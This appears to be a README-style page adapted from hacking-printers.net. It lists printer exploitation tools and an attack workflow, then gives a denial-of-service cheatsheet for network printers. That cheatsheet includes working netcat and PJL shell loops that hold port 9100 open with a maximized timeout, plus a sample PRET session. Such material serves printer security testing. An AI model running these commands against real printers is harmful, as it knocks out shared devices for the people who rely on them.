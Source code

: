 # printer-hacking

> Adapted from http://hacking-printers.net/

## Printer Hacking Tools

- [PRET](https://github.com/RUB-NDS/PRET) - Printer Exploitation Toolkit
- [Praeda](https://github.com/percx/Praeda) - Automated Printer Data Harvesting Tool
- [PFT & Hijetter](http://www.phenoelit.org/hp/) - One of the Early Network Printer Exploitation Tools
- [BeEF](https://github.com/beefproject/beef) - Browser Exploitation Framework that can be used for performing [Cross-site printing](http://hacking-printers.net/wiki/index.php/Cross-site_printing)

## Typical Steps

- perform [generic network assessment](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
- information gathering with Praeda
- use the [cheatsheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet) to find and exploit flaws
- use PRET for fun & profit

## Cheatsheet

### Denial of Service

#### [Transmission Channel](http://hacking-printers.net/wiki/index.php/Transmission_channel)

- TCP Protocol
- If print jobs are processed in series – which is assumed for most devices – only one job can be handled at a time.
- Setting high timeout value can effectively be used to enhance attack.
- Simple way with nc: `while true; do nc printer 9100; done`
- Set maximum timeout value as in following shell script:

```shell
# get maximum timeout value with PJL
MAX="`echo "@PJL INFO VARIABLES" | nc -w3 printer 9100 |\
  grep -E -A2 '^TIMEOUT=' | tail -n1 | awk '{print $1}'`"
# connect and set maximum timeout for current job with PJL
while true; do echo "@PJL SET TIMEOUT=$MAX" | nc printer 9100; done
```
- With PRET, a sample session would look like below:

```shell
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> env timeout
TIMEOUT=15 [2 RANGE]
       5
       300
```
